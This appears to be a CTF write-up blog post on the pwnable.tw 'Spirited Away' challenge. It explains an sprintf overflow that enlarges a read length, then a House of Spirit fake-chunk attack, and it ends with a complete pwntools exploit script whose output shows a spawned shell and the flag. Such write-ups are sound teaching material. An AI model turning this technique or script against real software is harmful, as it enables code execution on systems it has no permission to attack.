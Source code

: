 ```yaml
---
layout: post
title: Pwnable.tw - Spirited Away
published: True
---
```


{% highlight bash %}
spirited_away: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, not stripped
{% endhighlight %}
{% highlight python%}
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

## Intro
The program reads in user comments for the movie, "Spirited Away", and allows to user to repeatedly add new comments.
The pseudocode for the `survey()` function which does all the processing looks like the following.

{% highlight C %}
int survey()
{
  char printCommentNo; // [sp+10h] [bp-E8h]@2
  size_t hex3c; // [sp+48h] [bp-B0h]@1
  size_t hex50; // [sp+4Ch] [bp-ACh]@1
  char comment; // [sp+50h] [bp-A8h]@2
  int age; // [sp+A0h] [bp-58h]@2
  void *name; // [sp+A4h] [bp-54h]@2
  int reason; // [sp+A8h] [bp-50h]@2

  hex3c = 60;
  hex50 = 80;
LABEL_2:
  memset(&comment, 0, 0x50u);
  name = malloc(0x3Cu);
  printf("\nPlease enter your name: ");
  fflush(stdout);
  read(0, name, hex3c);
  printf("Please enter your age: ");
  fflush(stdout);
  __isoc99_scanf("%d", &age);                   // mallocs space for buffer
  printf("Why did you came to see this movie? ");
  fflush(stdout);
  read(0, &reason, hex50);
  fflush(stdout);
  printf("Please enter your comment: ");
  fflush(stdout);
  read(0, &comment, hex3c);
  ++cnt;
  printf("Name: %s\n", name);
  printf("Age: %d\n", age);
  printf("Reason: %s\n", &reason);
  printf("Comment: %s\n\n", &comment);
  fflush(stdout);
  sprintf(&printCommentNo, "%d comment so far. We will review them as soon as we can", cnt);// overflow if cnt >=100
  puts(&printCommentNo);
  puts(&s);
  fflush(stdout);
  if ( cnt > 199 )
  {
    puts("200 comments is enough!");
    fflush(stdout);
    exit(0);
  }
  while ( 1 )
  {
    printf("Would you like to leave another comment? <y/n>: ");
    fflush(stdout);
    read(0, &choice, 3u);
    if ( choice == 'Y' || choice == 'y' )
    {
      free(name);
      goto LABEL_2;
    }
    if ( choice == 'N' || choice == 'n' )
      break;
    puts("Wrong choice.");
    fflush(stdout);
  }
  puts("Bye!");
  return fflush(stdo
{% endhighlight %}

Each time a user wants to a new comment, the program asks us to enter several other fields.

{% highlight bash %}
Thanks for watching Spirited Away!
Please leave some comments to help us improve our next movie!

Please enter your name: Josh
Please enter your age: 26
Why did you came to see this movie? AAAAA
Please enter your comment: BBBBB
Name: Josh

Age: 26
Reason: AAAAA
y?
Comment: BBBBB


1 comment so far. We will review them as soon as we can

Would you like to leave another comment? <y/n>: 
{% endhighlight %}

These fields are stored onto the stack like so:

![](../img/spirited_away_1.png)

The name is always placed in a heap chunk created via `malloc(0x3c)`.
A pointer to this heap chunk is placed on the stack.

As we add comments, a global variable keeping track of the number of comments is incremented.

Each time a new comment is added, the `namePtr` on the stack is `free()`'d and `malloc(0x3c)` is called to reallocate the heap chunk to store the name for the next comment.

## Vulnerability
After 10 comments are added, an extra byte is added to the `printCommentNo` buffer, since "10" in hex is actually `0x3130`.
This pushes the NULL byte at the end of the ***"%d comment so far. We will review them as soon as we can"*** string 1 byte farther up the stack. 

**This overwrites the `hex3c` variable that is used to perform `read()` calls, with `0x0`.**

{% highlight C %}
read(0, name, hex3c);
[...]
read(0, &comment, hex3c);
{% endhighlight %}

**Even worse, after 100 comments are added, an extra 2 bytes will be added to the `printCommentNo` buffer which will overwrite the `hex3c` variable with `0x6e`, since that is the hex equivalent of the character "n" in the word "can".**

**This allows us to write more data onto both the stack and a heap chunk than we are supposed to.**

## Exploit 
To exploit this vulnerability, I used the "House of Spirit" heap exploitation technique to craft a fake fastchunk on the stack which I free'd into a fastbin. Then the next `malloc(0x3c)` allocation, which requested the same size of the fastchunk we just freed, returned this stack address back, and I then wrote data into this stack address to overwrite the saved EIP with the address of a `one_shot` gadget to spawn a shell. 

Overall, right before `malloc(0x3c)` returned my desired stack address, I set the stack up to look something like this.

![](../img/spirited_away_2.png)

First I leaked a libc and stack address off the stack using the `reason` buffer which was insecurely printed.

Then I wrote 100 comments to overwrite the `hex3c` variable on the stack with `0x6e`.

Next, I crafted a fake `0x40` byte sized chunk on the stack as well as a fake next chunk right after it, with a valid size.
The reason I made the size of the fake chunk `0x40` is because we want it to be returned on the next `malloc()` and we already know the next `malloc()` will be `malloc(0x3c)` which will look for a chunk in the same fastbin as the one a sized `0x40` byte chunk would be placed in.

**Also, there has to be a chunk `0x40` bytes after our fake chunk, and this fake next chunk has to have a valid size, otherwise the memory allocator will throw a "free(): invalid next size (fast)" error!** 

{% highlight C%}
if (have_lock
        || ({ assert (locked == 0);
          mutex_lock(&av->mutex);
          locked = 1;
          chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
            || chunksize (chunk_at_offset (p, size)) >= av->system_mem;
          }))
      {
        errstr = "free(): invalid next size (fast)";
        goto errout;
      }
{% endhighlight %}

In gdb, our fake chunk and next fake chunk will look something like this:
{% highlight bash %}
gdb-peda$ x/20xg 0x7fffffffde60-0x10
0x7fffffffde50: 0x0000000000000000      0x0000000000000040 <--- size of fastbin-sized fake chunk must equal size of next malloc() request
0x7fffffffde60: 0x0000000000ff0000      0x0000ff0000000000 <--- free(0x7fffffffde60)
0x7fffffffde70: 0x0000000000000001      0x00000000004007ed
0x7fffffffde80: 0x0000000000000000      0x0000000000000000
0x7fffffffde90: 0x00000000004007a0      0x0000000000002240 <--- size of next chunk must be >0x10 bytes and <0x2100 bytes
0x7fffffffdea0: 0x00007fffffffdf90      0xc69c8f667f6a2a00 
{% endhighlight %}

Finally, after the next `malloc(0x3c)` I was able to write `0x6e` bytes onto the stack starting at address `0x7fffffffde60`, which was enough to overwrite the saved EIP with my `one_shot` gadget.

Putting everything together, the following was my final exploit script.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def addComment1(name,age,reason,comment,again=True,ten=False): 
    r.send(name)
    r.recvuntil(":")
    r.sendline(str(age))
    r.recvuntil("movie?")
    r.sendline(reason)
    r.recvuntil(":")
    r.send(comment)
    info = r.recvuntil("<y/n>:")
    if again:
        r.sendline("y")
    else:
        r.sendline("n")
    if ten == False:
        r.recvuntil(":")
    return info

def addComment2(age,reason,again=True):
    r.sendline(str(age))
    r.recvuntil("movie?")
    r.sendline(reason)
    info = r.recvuntil("<y/n>:")
    if again:
        r.sendline("y")
    else:
        r.sendline("n")
    return info

def exploit(r):
    '''
    After 100 comments, the static size variable used to determine the # of bytes to read into
    the malloc'd chunk for the name will be overflown w/ 0x6e
    '''
    r.recvuntil(":")
    for i in range(8):
        addComment1("A"*10,12,"B"*20,"C"*20)
    libc_leak = u32(addComment1("A"*10,12,"B"*19,"C"*20).split("B\n")[1][:4])
    libc_base = libc_leak-0x5f20a  #ld_preload offset
    #libc_base = libc_leak-0x5fd0a # non-ld_preload offset
    stack_leak = u32(addComment1("A"*10,12,"B"*0x4f,"C"*20, ten=True).split("B\n")[1][:4])
    SRA = stack_leak-0x1c
    
    one_shot = libc_base+0x5f065
    #one_shot = libc_base+0x3a819
    log.info("libc base found at: "+hex(libc_base))
    log.info("stack leak found at: "+hex(stack_leak))
    log.info("SRA found at: "+hex(SRA))
    log.info('"magic" gadget found at: '+hex(one_shot))
    
    for i in range(90):
        addComment2(12,"B"*20)
        
    '''
    House of Spirit
    1. craft fake chunk on stack in known location
    2. overwrite name chunk pointer on stack w/addr of fake chunk we've created so that 
       the next free() will place stack address in a fastbin
    '''
    fake_chunk  = p32(0x0)
    fake_chunk += p32(0x40)   # fake chunk size
    fake_chunk += "AAAA"*15
    fake_chunk += p32(0x2240) # fake next size 
    fake_chunk_addr = stack_leak-0x68
    log.info("fake chunk crafted at: "+hex(fake_chunk_addr-0x8)) 
    
    payload  = "C"*0x54
    payload += p32(fake_chunk_addr)
    
    addComment1("A"*10,12,fake_chunk,payload) 
    
    '''
    3. malloc(0x3c) is called again, and will now return addr of fake chunk on stack!
    4. write payload into this fake chunk to overwrite SRA on stack with one_shot gadget
    '''
    payload  = p32(0xb00bface)*19
    payload += p32(one_shot)
    addComment1(payload,"12","B"*20,"C"*20,again=False,ten=True)

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/spirited_away/spirited_away'], env={"LD_PRELOAD":"./libc_32.so.6"})
        #r = process(['./spirited_away'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight bash %}
➜  spirited_away python solve.py chall.pwnable.tw 10204
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10204: Done
[*] libc base found at: 0xf7540000
[*] stack leak found at: 0xff93adb8
[*] SRA found at: 0xff93ad9c
[*] "magic" gadget found at: 0xf759f065
[*] fake chunk crafted at: 0xff93ad48
[*] Switching to interactive mode
 Bye!
$ id
uid=1000(spirited_away) gid=1000(spirited_away) groups=1000(spirited_away)
$ cat /home/spirited_away/flag
FLAG{Wh4t_1s_y0ur_sp1r1t_1n_pWn}
$  
{% endhighlight %}
